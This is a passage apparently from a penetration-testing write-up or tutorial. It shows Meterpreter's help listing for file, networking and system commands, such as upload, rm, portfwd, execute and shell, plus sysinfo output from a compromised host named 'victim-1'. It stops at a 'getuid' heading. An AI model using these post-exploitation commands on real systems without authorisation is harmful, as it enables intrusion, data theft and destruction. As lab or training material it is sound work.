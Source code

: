 ```bash
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory


Stdapi: Networking Commands
===========================
    Command       Description
    -------       -----------
    portfwd       Forward a local port to a remote service


Stdapi: System Commands
=======================
    Command       Description
    -------       -----------
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system's local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    shell         Drop into a system command shell
    sysinfo       Gets information about the remote system, such as OS


Stdapi: Audio Output Commands
=============================
    Command       Description
    -------       -----------
    play          play an audio file on target system, nothing written on dis
```

### sysinfo

```bash
sysinfo
```

```bash
Computer    : victim-1
OS          : Linux victim-1 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64
Meterpreter : php/linux
```

### getuid
